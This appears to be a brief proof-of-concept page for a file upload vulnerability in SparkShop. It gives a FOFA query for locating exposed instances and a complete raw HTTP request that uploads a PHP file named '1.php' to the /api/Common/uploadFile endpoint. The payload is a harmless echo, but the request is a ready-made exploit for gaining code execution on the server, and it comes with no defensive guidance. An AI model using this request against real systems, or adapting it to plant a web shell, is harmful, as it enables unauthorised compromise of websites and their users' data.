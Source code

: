 # FOFA
```plain
"SparkShop"
```

# POC
```plain
POST /api/Common/uploadFile HTTP/2
Host: your-ip
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Length: 178
 
------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="file";filename="1.php"
 
<?php echo"hello world";?>
------WebKitFormBoundaryj7OlOPiiukkdktZR--
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727273707351-90e57c34-58ad-48b0-9a58-30727f1fd6f2.png)

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727273723152-536ed0ec-9c5d-4bb9-a18e-0c58d85496a5.png)

